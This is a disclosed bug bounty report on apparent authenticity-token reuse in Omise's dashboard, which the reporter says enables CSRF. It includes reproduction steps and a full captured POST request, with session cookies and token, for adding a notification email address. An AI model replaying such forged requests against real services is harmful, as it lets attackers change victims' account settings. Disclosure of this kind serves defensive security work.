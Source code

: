 # Authenticity token doesnt expire after single use leading to CSRF

## Report Details
- **Report ID**: 919112
- **URL**: https://hackerone.com/reports/919112
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-07-08T17:23:06.565Z
- **Disclosed**: 2020-08-17T01:36:28.349Z

## Reporter
- **Username**: dark_haxor
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: omise

## Vulnerability Information
##Summary
Once you said that you ruby framework for making the authenticity-token which acts as a CSRF protection. You also send me this as to help me understand https://medium.com/rubyinside/a-deep-dive-into-csrf-protection-in-rails-19fa0a42c0ef . After finding i found that an authenticity-token can be used many times for a particular session leading to CSRF. 
##Steps to produce:
1) Login and go to https://dashboard.omise.co/test/subscriptions/new
2) Add an email and capture request and send it to repeater for checking
3) Again add another email for checking 
From here we learnt that on a successfully adding we get https://dashboard.omise.co/test/subscriptions else on a false end we would be redirected to the dashboard!
{F899996}
These are successfully added emails thats y we get redirected to subscriptions
4) Make a CSRF of one of the adding request via burpsuite csrf maker 
##Request used to make CSRF
```
POST /test/subscriptions HTTP/1.1
Host: dashboard.omise.co
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://dashboard.omise.co/
Content-Type: application/x-www-form-urlencoded
Content-Length: 309
DNT: 1
Connection: close
Cookie: session=eyJpZCI6InNlc3Npb25fNWtoMWhyZ2pyY3U2c202bXh4MyIsImtleSI6IjhiOTUwZDJhNWRlZWIxYmYzN2MwNTFlMWJiY2VjM2NmIiwiYWNjb3VudCI6ImFjY291bnRfdGVzdF81anZ5NHJwM2M5aHhxcDZjYmUxIiwiZXhwaXJlc19hdCI6IjIwMjAtMDctMDlUMDA6MDY6NDJaIiwiZW1haWwiOiJhYWthc2hhZGhpa2FyaTc4NkBnbWFpbC5jb20ifQ==; session.sig=DQLQM4kaz6XyIQ26G0zwF_xuNPU; locale=en; _omisegateway_session=Y1U0b2kvZ1l5ZkNlczRiN1doZkZWb3dscWlRK0EzcDdUbnVYSnoycHUrbDlzaEdVd1dqUnN5ckNEVTFVZ3BXQWRjdGs4Ukw4ekFDeWRnWnl3SVhDamFVZUtLaUMvYTlWeUEwZTY5dVBacXhtdjRhY0pWZ3pYQ2pVaS9XUkhlUjFjRWhhSzN0eDAyQWtQMnpROGEwd3k3bFZIcXNWTGFJOTlUejZZRnRKV0l0NStCYVNZeEorcWZRMzQvUVNxemJibnpoV09QSk9iZmpGRitzWlFBVUo0YzQwcENlbDFSTkgvaHJMa2xoR3lxYz0tLTk5UDFvWkpIeE12Uk56cUppZHFSN3c9PQ%3D%3D--93951192661dda26d2246d03ede9c3c8ca6cf226
Upgrade-Insecure-Requests: 1

utf8=%E2%9C%93&authenticity_token=UoPkXa4uMwSgxUG1d3a7l5PodACsA9LBagoeTlLNDZWAx1kzUeVH1%2FbeJdeXMr8Z5NYkgEX%2B1kaFci3i%2F%2BV%2Fqg%3D%3D&email_relay%5Baddress%5D=testaccount1%40gmail.com&email_relay%5Bsupported_event_groups%5D%5B%5D=accounting&email_relay%5Bsupported_event_groups%5D%5B%5D=chargebacks&button=
```
Successfully added an testaccount
{F900003}
5) Edit the email to any email "let us take attacker email" and change it to the CSRF's html file .
{F900002}
6) Save it and click it !
File: ```omise_CSRF.html```
7) Attacker email is added!
{F900005} 
##Important
1) The authenticity-token for a live session is used and many times! Thus making it a bit of problem
2) The authenticity-token expires after logout so if u try it with an expired token you will get redirected to dashboard. Thus indicating CSRF was not successful.
3) Please do check the authenticity-token of the request and html file matches.

This also indicate that CSRF token / authenticity token does not properly gets flushed and it can be re-used in that session multiple times
Regards,
@dark_haxor

## Impact

CSRF

## Attachments
- added2_emails.png
- CSRF_added_attacker_email.png
- testacc_added_success.png
- attacker_accoint_added_successfully.png
- omise_CSRF.html
